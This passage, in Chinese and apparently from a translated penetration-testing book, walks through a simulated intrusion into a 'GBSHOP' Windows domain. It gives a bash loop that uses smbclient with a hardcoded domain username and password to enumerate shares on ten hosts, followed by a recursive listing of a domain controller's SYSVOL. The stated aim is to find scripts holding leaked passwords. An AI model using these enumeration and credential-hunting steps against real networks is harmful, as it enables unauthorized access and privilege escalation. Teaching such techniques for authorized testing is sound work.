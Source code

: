我们已将可能的目标列表缩小到少数几个提供文件共享服务（253台机器中有10台）。让我们使用bash中的脏循环爬行它们，该循环使用smbclient命令列出可用共享：<br>

```
# bash shell script file loop.sh
#!/bin/bash
## Array containing all viable targets
declare -a arr=("10.10.20.78" "10.10.20.199" "10.10.20.56" "10.10.20.41"
"10.10.20.25" "10.10.20.90" "10.10.20.71" "10.10.20.22" "10.10.20.38"
"10.10.20.15")
## now loop through the above array
for i in "${arr[@]}"
do
 echo $i
 ## List shares
 smbclient -L $i -U GBSHOP\\dvoxon%Bird123!
 echo "--"
done
```

```
root@PIspy:# chmod +x loop.sh && ./loop.sh
10.10.20.78
Domain=[GBSHOP] OS=[Windows Server 2012 R2 Datacenter Evaluation
9600] Server=[Windows Server 2012 R2 Datacenter Evaluation 6.3]
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CORP$ Disk 
FTP_SALES$ Disk 
HR$ Disk 
IPC$ IPC Remote IPC
IT_Support$ Disk 
---
[…]
```

现在我们可以说，我确信您没有错过“FTP\SALES$”共享或其他吸引人的文件夹，但使用dvoxon的低权限帐户，我们无法访问它们（目前）：
```
root@PIspy:#smbclient -c "ls" //10.10.20.78/CORP$ -U GBSHOP\\dvoxon
%Bird123!
WARNING: The “syslog” option is deprecated
Domain[GBSHOP] OS=[Windows Server 2012 R2 Datacenter Evaluation
NT_STATUS_ACCESS_DENIED listing \*
```

我们需要一种获得更高特权的方法来摆脱这些令人讨厌的限制。实现这一点的一种方法是浏览dvoxon可用的有限共享，查找可能泄露某些密码的脚本和配置数据：.bat、.xml、.sh、.vbs、.vba、.vbe、.asp、.aspx、.php、.jsp等。

我们的第一个目标是承载SYSVOL共享的SV0199（10.10.20.199）计算机。不是随便挑的。这是域控制器上存在的典型文件夹。

我们有一个强大的目标在手！命令在smbclient中递归，并与ls指令一起显示所有可用目录中的文件：
```
root@PIspy:# smbclient -c "recurse;ls" //10.10.20.199/SYSVOL -U GBSHOP\\
dvoxon%Bird123!
```
![](chap4/chap4-2.jpg)
